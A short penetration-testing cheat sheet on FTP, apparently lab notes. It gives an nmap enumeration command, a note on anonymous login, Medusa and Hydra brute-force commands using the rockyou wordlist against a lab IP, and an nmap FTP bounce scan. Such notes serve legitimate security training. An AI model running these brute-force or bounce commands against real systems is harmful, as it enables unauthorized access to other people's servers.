

The [File Transfer Protocol](https://en.wikipedia.org/wiki/File_Transfer_Protocol) (`FTP`) is a standard network protocol used to transfer files between computers. It also performs directory and files operations, such as changing the working directory, listing files, and renaming and deleting directories or files. By default, FTP listens on port `TCP/21`.

### Enumeration

```bash
sudo nmap -sC -sV -p 21 <ip-address>
```

### Misconfigurations

#### Anonymous Authentication

To access with anonymous login, we can use the `anonymous` username and no password. 

### Protocol Specifics Attacks

#### Brute Forcing

We can use [Medusa](https://github.com/jmk-foofus/medusa) to perform brute-forcing.

```bash
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
```

Hydra Usage -

```bash
hydra -L users.list -P passwords.list ftp://<ip-address>:<port> -V -t 8 -f
```

#### FTP Bounce Attack

An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network. The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server.



```bash
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```